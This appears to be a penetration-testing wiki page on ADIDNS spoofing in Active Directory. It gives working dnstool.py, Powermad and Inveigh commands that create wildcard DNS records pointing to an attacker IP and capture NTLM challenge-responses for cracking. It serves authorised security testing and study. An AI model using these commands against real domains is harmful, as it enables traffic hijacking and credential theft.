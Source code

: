 # ADIDNS spoofing

## Theory

In order to function properly, Active Directory services need DNS. In that matter, Active Directory Domain Services \(AD-DS\) offer an integrated storage and replication service for DNS records. This is called Active Directory Integrated DNS \(ADIDNS\).

Just like any other domain name resolution spoofing attack, if an attacker is able to resolve requests with an arbitrary IP address, traffic gets hijacked, the attacker becomes a man-in-the-middle and further attacks can be operated.

Since ADIDNS zone DACL \(Discretionary Access Control List\) enables regular users to create child objects by default, attackers can leverage that and hijack traffic.

ADIDNS zones can be remotely edited

* with **dynamic updates** \(a DNS specific protocol used by machine accounts to add and update their own DNS records\). Users can create records if they don't exist, and they will have full control over it. By default, users that don't own a record will not be able to edit it, or to add another one with the same name, even if the type is different \(A, AAAA, CNAME, MX, and so on\).
* by **using LDAP** to create dnsNode objects. While dynamic updates can't be used to inject a wildcard DNS record, LDAP can be \(only if the record doesn't already exist, which is the case by default\).

> Wildcard records allow DNS to function in a very similar fashion to LLMNR/NBNS spoofing. Once you create a wildcard record, the DNS server will use the record to answer name requests that do not explicitly match records contained in the zone. \([source](https://blog.netspi.com/exploiting-adidns/#wildcard)\)

## Practice

### Manual record manipulation

{% tabs %}
{% tab title="UNIX-like" %}
An awesome Python alternative to Powermad's functions is [dnstool](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py). Theoretically, this script can be used to `add`, `modify`, `query`, `remove`, `resurrect` and `ldapdelete` records in ADIDNS.

```bash
# query a node
dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query $DomainController

# add a node and attach a record
dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action add --data $AttackerIP $DomainController
```
{% endtab %}

{% tab title="Windows" %}
On Windows, the [Powermad ](https://github.com/Kevin-Robertson/Powermad)module can be used to manually add, view, edit, enable, disable or remove records and nodes. In the following examples, the wildcard \(`*`\) node/record is targeted but the examples should also work with other records \(except things like `WPAD` that are in the [GQBL](wpad-spoofing.md#through-adidns-spoofing)\).

```bash
# get the value populated in the DNSRecord attribute of a node
Get-ADIDNSNodeAttribute -Node * -Attribute DNSRecord

# creates a wildcard record, sets the DNSRecord and DNSTombstoned attributes
New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP

# append, populate, or overwrite values in a DNS node attribute
Set-ADIDNSNodeAttribute -Node * -Attribute DNSRecord -Value (New-DNSRecordArray -Data $ATTACKER_IP) -Verbose

# a tombstoned record can be turned again into a valid record with the following command
Enable-ADIDNSNode -Node *

# disable (i.e. tombstone) a node
Disable-ADIDNSNode -Node *

# remove a node
Remove-ADIDNSNode -Node *

# check the wildcard record works/resolve a name
Resolve-DnsName NameThatDoesntExist
```

{% hint style="success" %}
**TL; DR**: the following command will add a new wildcard record \(if it doesn't already exist\) with the attacker IP set in the DNSRecord attribute

```bash
New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP
```
{% endhint %}

{% hint style="warning" %}
**Warning**: in some environments, the disabling or removal of the records previously created for tests failed. The records were shown as tombstoned or nonexistant when using functions like `Get-ADIDNSNodeOwner`, `Get-ADIDNSNodeAttribute`, and so on. I think it was due to some replication issues.

However, the DNS Manager console was still showing those records and name resolution was still effective. It will probably stay an unsolved mystery for me, but testers need to keep this in mind when abusing ADIDNS.
{% endhint %}

More help on usage, support functions, parameters and attacks [here](https://github.com/Kevin-Robertson/Powermad#adidns-functions).
{% endtab %}
{% endtabs %}

{% hint style="info" %}
When adding records has no impact on name resolution or when the tools throw errors like `NoSuchObject`, it could be that the DNS zones in use are stored in the legacy `System` partition instead of the `DomainDnsZones` one.

The tools mentioned above have the ability to work with the legacy storage with the `--legacy` option for dnstool.py and the `-Partition` argument for Powermad. 
{% endhint %}

### Dynamic spoofing

Using [Inveigh](https://github.com/Kevin-Robertson/Inveigh) \(Powershell\), the following command will 

* operate [LLMNR, NBT-NS and mDNS spoofing](llmnr-nbtns-mdns.md)
* operate ADIDNS spoofing
  * `combo` looks at LLMNR/NBNS requests and adds a record to DNS if the same request is received from multiple systems
  * `ns` injects an NS record and if needed, a target record. This is primarily for the GQBL bypass for wpad. 
  * `wildcard` injects a wildcard record
* set the threshold at which the combo ADIDNS spoofing mode will take effect
* enable showing NTLM challenge/response captures from machine accounts
* set the Challenge to `1122334455667788` \(to [crack NTLM hashes](../credentials/cracking.md#practice) with [crack.sh](https://crack.sh/)\)

```text
Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```

[This wiki page](https://github.com/Kevin-Robertson/Inveigh/wiki/Basics) can be really useful to help master Inveigh and its support functions

* `Clear-Inveigh` to clear Inveigh's hashtable
* `Get-Inveigh` to get data from Inveigh's hashtable
* `Stop-Inveigh` to stop all running modules
* `Watch-Inveigh` to enable real time console output

## References

{% embed url="https://blog.netspi.com/exploiting-adidns/" %}

{% embed url="https://blog.netspi.com/adidns-revisited/" %}

{% embed url="https://snovvcrash.rocks/2020/12/28/htb-hades.html\#spoofing-active-directory-integrated-dns" %}



